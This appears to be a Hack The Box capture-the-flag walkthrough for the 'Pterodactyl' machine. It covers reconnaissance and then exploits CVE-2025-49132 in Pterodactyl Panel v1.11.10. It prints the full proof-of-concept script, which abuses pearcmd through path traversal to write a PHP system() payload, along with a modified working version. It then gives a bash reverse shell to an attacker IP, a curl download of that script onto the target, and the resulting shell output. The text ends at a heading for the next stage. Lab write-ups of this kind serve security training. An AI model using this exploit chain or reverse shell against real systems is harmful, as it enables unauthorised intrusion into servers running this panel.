



# HTB-pterodactyl

We will begin this machine by using Nmap to scan the server for all open TCP ports, service versions and perform script scanning:

```bash
nmap -p0-65535 -sCV 10.129.91.107 --open
```

### Results:

```
PORT     STATE  SERVICE    VERSION
22/tcp   open   ssh        OpenSSH 9.6 (protocol 2.0)
| ssh-hostkey: 
|   256 a3:74:1e:a3:ad:02:14:01:00:e6:ab:b4:18:84:16:e0 (ECDSA)
|_  256 65:c8:33:17:7a:d6:52:3d:63:c3:e4:a9:60:64:2d:cc (ED25519)
80/tcp   open   http       nginx 1.21.5
|_http-server-header: nginx/1.21.5
|_http-title: My Minecraft Server
```

## User -> wwwrun

Visiting the web server on port 80, reveals a MonitorLand landing page, which appears to be related to the game Minecraft: 


The landing page also reveals the **play.pterodactyl.htb** subdomain and a **changelogs.txt** file. Before moving on, let's search for any more subdomains.

#### Running FFUF:

```
ffuf -w /opt/useful/seclists/Discovery/DNS/subdomains-top1million-5000.txt:FUZZ -u http://pterodactyl.htb/ -H 'Host: FUZZ.pterodactyl.htb' -fc 302
```

#### Output:

```
        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://pterodactyl.htb/
 :: Wordlist         : FUZZ: /opt/useful/seclists/Discovery/DNS/subdomains-top1million-5000.txt
 :: Header           : Host: FUZZ.pterodactyl.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response status: 302
________________________________________________

panel                   [Status: 200, Size: 1897, Words: 490, Lines: 36, Duration: 269ms]
```

As we can see, FFUF returns to us the subdomain "panel". Let's add these to our **/etc/hosts** file:

#### Viewing hosts file:

```
cat /etc/hosts
```

#### Output:

```
127.0.0.1	localhost
127.0.1.1	pwnbox7.1

# The following lines are desirable for IPv6 capable hosts
::1     localhost ip6-localhost ip6-loopback
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
127.0.0.1 localhost
127.0.1.1 htb-06gjp1juuo htb-06gjp1juuo.htb-cloud.com
10.129.92.38    pterodactyl.htb play.pterodactyl.htb panel.pterodactyl.htb
```

Visiting panel.pterodactyl.htb presents us with the following login page:



---

#### Viewing changelogs file:

If we click on the changelogs link on the landing page, we receive the following information:

```
MonitorLand - CHANGELOG.txt
======================================

Version 1.20.X

[Added] Main Website Deployment
--------------------------------
- Deployed the primary landing site for MonitorLand.
- Implemented homepage, and link for Minecraft server.
- Integrated site styling and dark-mode as primary.

[Linked] Subdomain Configuration
--------------------------------
- Added DNS and reverse proxy routing for play.pterodactyl.htb.
- Configured NGINX virtual host for subdomain forwarding.

[Installed] Pterodactyl Panel v1.11.10
--------------------------------------
- Installed Pterodactyl Panel.
- Configured environment:
  - PHP with required extensions.
  - MariaDB 11.8.3 backend.

[Enhanced] PHP Capabilities
-------------------------------------
- Enabled PHP-FPM for smoother website handling on all domains.
- Enabled PHP-PEAR for PHP package management.
- Added temporary PHP debugging via phpinfo()
```

What immediately jumps out is **Pterodactyl Panel v1.11.10**, which will be the technology for the panel subdomain we just discovered and that PHP debugging has been enabled via **phpinfo()**. First, let's search for exploits related to this version of Pterodactyl Panel:



We discovered **CVE-2025-49132**. Research into this presents us with the following exploit:



https://github.com/0xtensho/CVE-2025-49132-poc/

Next, we must download and prepare the exploit:

#### Downloading the exploit:

```
git clone https://github.com/0xtensho/CVE-2025-49132-poc/
```

#### Execute the exploit:

```
python3 poc.py panel.pterodactyl.htb id
```

#### Output:

```
{"..\/..\/..\/..\/..\/usr\/local\/lib\/php":{"pearcmd":[]}}{"..\/..\/..\/..\/..\/tmp":{"payload":[]}}
```

It did not work. Let's take a look at the source code:

```
import sys, os

host=sys.argv[1]
payload=sys.argv[2].replace(' ','\\$\\\\{IFS\\\\}')

# Ugly but have to use curl since the package requests won't allow us to send characters like '{' without encoding them
os.system(f"curl \"http://{host}/locales/locale.json?+config-create+/&locale=../../../../../usr/local/lib/php&namespace=pearcmd&/<?=system('{payload}')?>+/tmp/payload.php\"")

os.system(f"curl \"http://{host}/locales/locale.json?locale=../../../../../tmp&namespace=payload\"")
```

What appears to be happening is a cURL request is being made where cURL is setting locale to /usr/local/lib/php and namespace to pearcmd, before executing a payload. Analysing the phpinfo file reveals that the absolute PEAR directory is in fact /usr/share/php/PEAR:

```
include_path	.:/usr/share/php8:/usr/share/php/PEAR	.:/usr/share/php8:/usr/share/php/PEAR
```

According to AI, the pearcmd.php file exists in different paths depending on the Linux Distribution, OS version or custom PHP installation. Therefore, by updating the script we can reattempt our RCE:

#### Updated script:

```
import sys, os

host=sys.argv[1]
payload=sys.argv[2].replace(' ','\\$\\\\{IFS\\\\}')

# Ugly but have to use curl since the package requests won't allow us to send characters like '{' without encoding them
os.system(f"curl \"http://{host}/locales/locale.json?+config-create+/&locale=../../../../../usr/share/php/PEAR&namespace=pearcmd&/<?=system('{payload}')?>+/tmp/payload.php\"")
os.system(f"curl \"http://{host}/locales/locale.json?locale=../../../../../tmp&namespace=payload\"")
```

#### Execute the exploit:

```
python3 poc.py panel.pterodactyl.htb id | grep -i '#PEAR_Config' -A 1
```

#### Output:

```
#PEAR_Config 0.9
a:13:{s:7:"php_dir";s:88:"/&locale=../../../../../usr/share/php/PEAR&namespace=pearcmd&/uid=474(wwwrun) gid=477(www) groups=477(www)
```

This proves successful, and the output displays: uid=474(wwwrun) gid=477(www) groups=477(www).

### Getting a shell

To obtain access we will set up a listener on our attacker machine before using a cURL payload to download a reverse bash shell onto the server, execute it, and catch the session on our listener. 

#### Set up a listener:

```
nc -lvnp 4444
```

#### Creating shell.sh:

```
#!/bin/bash
bash -i >& /dev/tcp/10.10.14.16/4444 0>&1
```

#### Start Python webserver:

```
python3 -m http.server 9001
```

#### Download the file onto the server:

```
python3 poc.py panel.pterodactyl.htb 'curl http://10.10.14.16:9001/rev.sh -O rev.sh'
```

#### Give the file executable permissions:

```
python3 poc.py panel.pterodactyl.htb 'chmod 777 rev.sh'
```

#### Execute the exploit:

```
python3 poc.py panel.pterodactyl.htb './rev.sh'
```

#### Output:

```
Listening on 0.0.0.0 4444
Connection received on 10.129.92.38 52924
bash: cannot set terminal process group (1230): Inappropriate ioctl for device
bash: no job control in this shell
wwwrun@pterodactyl:/var/www/pterodactyl/public> id
id
uid=474(wwwrun) gid=477(www) groups=477(www)
```

---

## wwwrun -> phileasfogg3

